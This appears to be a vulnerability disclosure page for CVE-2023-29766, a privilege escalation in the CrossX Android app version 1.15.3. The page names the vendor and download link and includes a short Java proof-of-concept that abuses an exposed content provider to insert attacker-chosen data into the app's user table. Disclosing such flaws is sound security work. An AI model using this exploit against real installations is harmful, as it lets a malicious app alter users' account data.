 # Escalation of Privileges exists in CrossX（CVE-2023-29766）

Vendor: CROSSX SOLUÇÕES MOBILE LTDA(https://appcrossx.com/)

Affected product: CrossX(com.startapps.crossx)

Version: 1.15.3

Download link：https://play.google.com/store/apps/details?id=com.startapps.crossx

Description of the vulnerability for use in the CVE：An issue found in CrossX v.1.15.3 allows a local attacker to cause an escalation of Privileges via the database files.

Additional information:  The CrossX application allows unauthorized applications to use the methods provided in its exposed components to modify data in the Database file, which is loaded at application startup and affects critical application functionality. For example, modify the user's personal data, resulting in an escalation of privilege attack.

poc:

```java
 public void attack_crossx() {
        Uri uri = Uri.parse("content://com.startapps.crossx.contentprovider/tb_user");
        ContentResolver contentResolver = getApplicationContext().getContentResolver();
            ContentValues contentValues = new ContentValues();
            contentValues.put("email", targetVaule);
            contentResolver.insert(uri, contentValues);
    }
```
